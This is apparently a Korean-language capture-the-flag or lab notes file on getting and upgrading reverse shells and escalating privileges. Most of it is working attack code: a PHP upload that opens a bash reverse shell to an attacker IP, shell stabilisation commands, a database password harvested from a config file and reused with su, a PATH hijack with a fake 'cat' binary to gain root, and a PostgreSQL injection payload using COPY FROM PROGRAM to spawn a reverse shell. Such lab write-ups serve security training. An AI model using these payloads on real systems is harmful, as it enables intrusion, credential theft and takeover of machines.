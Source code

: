 reverse shell
#
`1. php 업로드`
```
<?php
  exec("/bin/bash -c 'bash -i &> /dev/tcp/10.10.14.217/1234 0<&1'")
?>
```
`2. 셸 안정화`
```
script /dev/null -c bash
stty raw -echo; fg
reset
xterm
export TERM=xterm
export SHELL=bash
```
`3. 탐색(home, var 하위 디렉토리)`
```
cat db.php
<?php
$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
?>
```
`4. 얻은 정보로 권한 상승?`
```
su robert
M3g4C0rpUs3r!
``` 
```
id
uid=1000(robert) gid=1000(robert) groups=1000(robert),1001(bugtracker)
```
```
find / -group bugtracker 2>/dev/null
```
`bugtracker`그룹에 접근
```
find / -group bugtracker 2>/dev/null
/usr/bin/bugtracker
```
id를 몰라서 접근이 안된다.

![image](https://user-images.githubusercontent.com/61821641/149992123-52fab6e7-b05b-41ea-b696-72f866995ed3.png)

`절대 경로 대신 상대 경로를 사용하여 cat binary를 호출하는 것을 볼 수 있다. 악의적인 cat을 만들고 현재 작업 디렉토리를 포함하도록 경로를 수정하면 잘못된 구성을 악용할 수 있으며 권한을 루트로 높일 수 있다.`
```
export PATH=/tmp:$PATH
cd /tmp
echo '/bin/sh' > cat
chmod +x cat
```
#
1. 포트 1234(또는 수신하려는 포트)를 통해 대상 시스템의 IPv4 주소에서 공격 시스템의 IPv4 주소로의 모든 TCP 인바운드 연결을 허용
```
sudo ufw allow from <target ip> proto tcp to any port 1234
nc -lvnp 1234
```
2. 
![image](https://user-images.githubusercontent.com/61821641/150576818-3437aa8c-226b-412d-8402-1d33fb6a8cdf.png)
```
'; CREATE TABLE cmd_exec(cmd_output text); --
'; COPY cmd_exec FROM PROGRAM 'bash -c ''bash -i >& /dev/tcp/<my ip>/1234 0>&1'''; -- 
```
3. 상호작용적인 shell 만들기
```
python3 -c 'import pty; pty.spawn("/bin/sh")'
```
![image](https://user-images.githubusercontent.com/61821641/150577289-9a5f4915-a62c-4851-bbdd-c6663af8688a.png)


